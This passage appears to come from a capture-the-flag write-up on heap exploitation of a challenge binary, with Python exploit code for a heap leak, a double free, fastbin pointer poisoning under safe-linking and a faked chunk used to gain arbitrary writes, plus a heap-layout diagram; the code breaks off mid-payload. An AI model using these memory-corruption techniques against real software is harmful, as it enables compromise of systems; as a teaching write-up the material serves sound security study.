 ```python
delete(b"CS1001")

# get heap leak
heap_leak = u64(search(b"CS2001").ljust(8, b"\x00"))
heap_leak = fastbin_decrypt(heap_leak) - 0x3f0
```

### Arbitrary writes

Within the heap region, we can still do arbitrary writes because we can write the appropriate size to the location we
are targeting. It looks something like this:

```
┌─────────────────────────────────┐
│                │           0xxx │ actual data chunk
│                │                │
│                │                │
│                │                │
│                │           0x81 │ fake fastbin size
│ fd             │                │ (make sure fd is valid, so after allocating this chunk the fastbin won't be broken)
│                │           0x31 │ end of data chunk, start of Node chunk
│ hash           │ *left          │ just use gdb to check and copy these values
│ *right         │ *data          │ overwrite this pointer
│                │                │
└─────────────────────────────────┘
```

The crucial parts are ensuring that fd is properly encrypted as `0` with the correct address, and hash, left, and right
are correctly set. (In some instances, these values may need to be tweaked to manually fix the tree)

We can then escalate this into something better (eg. overwrite data pointer for more useful leaks)

```python
pos1 = heap_leak + 0x980
target1 = heap_leak + 0x9d0

# double free
delete(b"CS2001")

# overwrite fastbin ptr
payload = p64(fastbin_encrypt(pos1, target1))
add(b"CS0001", 0x70, payload)

payload = flat(
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x81, # to fake a fastbin chunk here
    fastbin_encrypt(heap_leak + 0x9e0, 0), 0x0,
)

# get 3 more to reach fake chunk
for i in range(3):
    add(f"CS100{i}".encode(), 0x70, payload)

payload = flat(
    0x0, 0x0,
    0x0, 0x31,
    0xdeadbeef, 0x0,
    0x0, 0xcafebabe,
```